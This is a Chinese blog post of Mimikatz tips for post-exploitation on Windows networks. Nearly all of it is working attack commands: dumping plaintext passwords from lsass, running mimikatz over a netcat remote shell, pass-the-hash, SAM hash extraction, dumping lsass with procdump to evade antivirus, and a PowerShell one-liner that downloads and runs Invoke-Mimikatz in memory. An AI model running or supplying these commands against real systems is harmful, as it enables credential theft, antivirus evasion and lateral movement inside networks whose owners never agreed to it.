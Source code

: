 ```yaml
---
title: Mimikatz使用Tips
date: 2015-12-15
tags:
- Mimikatz
- 内网渗透
---
```

[Mimikatz](/file/downloads/mimikatz_trunk.zip)是一款能够从Windows认证进程(lsass.exe)里获取处于active状态账号明文密码的工具。在针对Windows操作系统的后渗透测试中经常用到。
<!-- more -->
# 基本使用
## 本地执行并输出结果
```
C:\>mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir
```
## 将输出输入到文件
将结果输出到log.txt文件中，这种输出结果便于查看
```
C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
```
# 内网渗透
## 使用nc远程执行
本地监听任意端口
```
C:\>nc.exe -lvp 1234
```
远端使用nc执行
```
C:\>nc.exe -vv you_ip 1234 -e mimikatz.exe
```
## Hash传递
```
Privilege::debug
sekurlsa::pth /domain:xxxx /user:xxxxx /ntlm:xxxxxx
```
## 导出所有用户口令
```
lsadump::sam SYSTEM.hiv SAM.hiv
```
# 其他技巧
## 配合procdump绕过杀软
实际测试中mimikatz通常会被杀软查杀，配合procdump可以抓取内存后本地解密。ProcDump是微软的一款工具，其主要目的是监视CPU峰值的应用程序，但同时它也可以用于进程转储。
[下载地址](/file/downloads/Procdump.zip)
工具使用：
```
C:\>procdump.exe -accepteula -ma lsass.exe passwd.dmp
```
进程保存好后下载到本地，这里要注意本地运行mimikatz的系统要与目标机器的系统兼容，兼容性如下：
![](/file/images/minidump_matrix.png)
准备好环境后就可以用mimikatz抓取密码了
```
mimikatz # sekurlsa::minidump passwd.dmp
Switch to MINIDUMP
mimikatz # sekurlsa::logonPasswords full
```
## 使用Powershell抓取密码
Powershell 是运行在windows机器上实现系统和应用程序管理自动化的命令行脚本环境，支持.NET对象。白名单、可以轻松绕过杀软。
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
